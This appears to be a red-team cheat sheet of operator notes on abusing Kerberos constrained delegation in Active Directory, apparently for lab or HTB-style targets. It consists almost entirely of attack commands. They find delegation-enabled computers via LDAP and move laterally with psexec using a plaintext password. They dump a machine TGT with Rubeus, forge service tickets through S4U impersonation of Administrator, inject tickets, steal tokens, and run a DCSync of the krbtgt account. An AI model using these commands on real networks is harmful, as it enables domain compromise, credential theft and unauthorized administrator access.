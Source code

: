
```

```

```
kerbeus s4u /impersonateuser:Administrator /domain:painters.htb /service:cifs/dc.painters.htb /altservice:cifs /ticket:
```
##### Constrained Delegation
Search for computers with Constrained Delegation (`msDS-AllowedToDelegateTo` not set to null)
```powershell
ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo
```

Check the UAC value to see if protocol transitioning is possible 
```powershell
ldapsearch (&(samAccountType=805306369)(samaccountname=DUB-WEB-1$)) --attributes userAccountControl
```

We want true
```powershell
[Convert]::ToBoolean(16781312 -band 16777216)
```

Within SYSTEM level beacon on Constrained Delegation host, dump TGT for the computer account
```powershell
make_token CONTOSO\rsteel Passw0rd!
jump psexec64 lon-ws-1 smb

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7  /service:krbtgt /nowrap
```


> Couple options here: 

1.  Perform the S4U abuse to obtain a usable service ticket using service name substitution

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:DUB-WEB-1$ /msdsspn:MSSQLSvc/dub-sql-1.dublin.contoso.com /altservice:cifs /impersonateuser:Administrator /nowrap /ticket:
```

> Use the FQDN for the services to avoid oopsies

2. Perform the S4U abuse to obtain a usable service ticket for **a service listed in the `msDS-AllowedToDelegateTo`** value,

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:LON-WKSTN-1$ /msdsspn:MSSQLSvc/dub-sql-1.dublin.contoso.com /impersonateuser:Administrator /nowrap /ticket:
```

---

 Inject the ticket into a sacrificial logon session.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DUBLIN.CONTOSO.COM /username:Administrator /password:FakePass /ticket:
```

 Impersonate the process and verify
```powershell
steal_token [PID]
run klist

ls \\lon-fs-1\c$
dcsync CONTOSO.COM CONTOSO\krbtgt
```